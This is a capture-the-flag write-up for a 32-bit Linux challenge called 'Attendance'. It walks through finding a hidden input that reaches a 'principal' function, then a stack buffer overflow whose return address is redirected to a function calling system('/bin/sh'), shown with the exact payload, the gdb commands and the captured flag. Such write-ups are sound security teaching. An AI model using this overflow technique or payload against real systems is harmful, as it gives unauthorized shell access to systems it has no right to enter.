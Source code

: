 ### Attendance
50 points
> hmmm, I feel not all students are attending my lesson today, someone missing?
>
> remote: 89.38.210.128 31337

---

We get given an ip address and the (linux) executable running on it. First I spent a while setting up a proper linux vm, as it turns out bash on windows just doesn't support 32-bit executables. When you run the executable you end up with something along the lines of the following:

```
t@t:~$ nc 89.38.210.128 31337
Call> Bob
No such student
t@t:~$
```

Messing with it I noticed that if you typed more than 6 characters you'd lose the last new line, and if you were running it locally the extra characters would then spill out into your console. I then installed Binary Ninja in order to debug it further. When you open up main there's a nice repeating pattern.

![Disassembly Pattern][00_Disassembly]

Looking at this more closely you can see that before the first jump it checks if a variable is equal to 0x1, if not it jumps. Then it checks if it's equal to 0x2, if not it jumps, and this continues all the way up to 0x5. If at any point it is equal, it instead moves on to call a function "student_n", where n is the value it was comparing to. After all the student blocks, however, there's another one, comparing to 0x7a69, and then jumping to "principal". This was interesting, and I wanted to work out a way to get to it. From a hunch I tried entering just "1" into the program and look at what I got:

```
t@t:~$ nc 89.38.210.128 31337
Call> 1
Student 1 - present
t@t:~$
```

From this I should have just gone on to try 0x7a69 - 31337, but instead I spent quite a while in gdb trying to work out what exactly was happening to my input. When I eventually did try that though, the following happened:

```
t@t:~$ ./attendance
Call> 31337
Leave a Message for the principal, please:
test
Principal got your message test
t@t:~$
```

Then I found something else more interesting

```
t@t:~$ ./attendance
Call> 31337
Leave a Message for the principal, please:
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
Principal got your message AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPP
Segmentation fault
t@t:~$ PQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
PQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ: command not found
t@t:~$
```

So firstly, we only have 63 characters (and the newline) to work with, but more interestingly we have a buffer overflow. The challenge later got a hint about exactly this. Getting the segfault in gdb gives the following more detailed error:

```
Progran recived signal SIGSEV, Segmentation fault.
0x4d4d4d4d in ?? ()
```

0x4d4d4d4d corresponds to 'MMMM'. So I went to try find exactly caused it, and what I could substitute in. But while trying this, I repeatedly came across a really annoying feature I decided I had to deal with first. If you spend too long, the program just kicks you out, even in gdb. Back in Binary Ninja I found what was causing that:

![Alarm call][01_Alarm]

So to avoid that, in gdb I did the following:

```
(gdb) break *0x080486bd
Breakpoint 11 at 0x80486bd
(gdb) command
Type commands for breakpoint(s) 11, one per line.
End with a line saying just "end".
>silent
>jump *0x08048c5
>c
>end
(gdb)
```

With this in place I could safely continue debugging. I eventually found out the segfault was coming from the return of the principal function. In Binary Ninja there was a function "bring\_students\_to\_school", which wasn't being called from anywhere, so I figured what if I change the return to point to there. The disassembly included the string "/bin/sh" and had a call straight to system, which definitely seemed promising. So I setup a breakpoint right after the input, _input nothing_, and then set the correct bytes to the return address. And it worked. I had a bash shell there. So I went ahead trying to recreate this in my actual shell.

```
t@t:~$ echo -e "31337\nAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLL\x60\x86\x04\x08" | ./attendance
Call> Leave a message for the principal, please:
Principal got your message AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLL`▒
Segmentation fault
t@t:~$
```

Well that's not good. What I thought happened here was that I'd overwritten some other crucial byte with the rest of my text, remember in gdb I entered nothing, so I spent way too long mapping everything out, working what bytes I'd have to set everything to so that it was the same, and working out where nulls could be replaced with 0x01. In actuality what was happening was address space layout randomization, the function just wasn't in the same place on my system. As it turns out both gdb and the remote sever had this disabled, so I was really right all along. The last problem was just inputting it, as netcat wasn't printing anything if I piped stuff in. Because of this I copied a quick bit of code from stackoverflow, adjusted it a bit, and then just did everything through python. And it worked. A bit of exploring the file system later and...

```
t@t:~$ python attendance.py cat /home/attendance/flag
timctf{l1ttl3_th1ngs_m4k3_b1g_th1ngs_h4pp3n}
```


[00_Disassembly]: ../images/07_00_disassembly.png
[01_Alarm]: ../images/07_01_alarm.png
